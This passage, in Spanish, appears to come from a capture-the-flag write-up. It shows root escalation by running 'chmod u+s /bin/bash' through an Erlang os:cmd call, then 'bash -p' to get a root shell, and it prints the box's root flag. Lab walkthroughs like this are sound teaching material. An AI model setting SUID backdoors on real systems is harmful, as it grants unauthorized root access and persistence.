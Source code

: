 ```shell
os:cmd("chmod u+s /bin/bash").
```

Ahora si nos salimos de la `shell` y entramos por `SSH` veremos lo siguiente:

```
-rwsr-xr-x 1 root root 1396520 Mar 14  2024 /bin/bash
```

Vemos que ha funcionado, por lo que vamos a ser `root` de esta forma:

```shell
bash -p
```

Info:

```
bash-5.1# whoami
root
```

Y con esto ya seremos `root`, por lo que leeremos la `flag` de `root`.

> root.txt

```
cab882ca726e1f88539bd079dcdae180
```
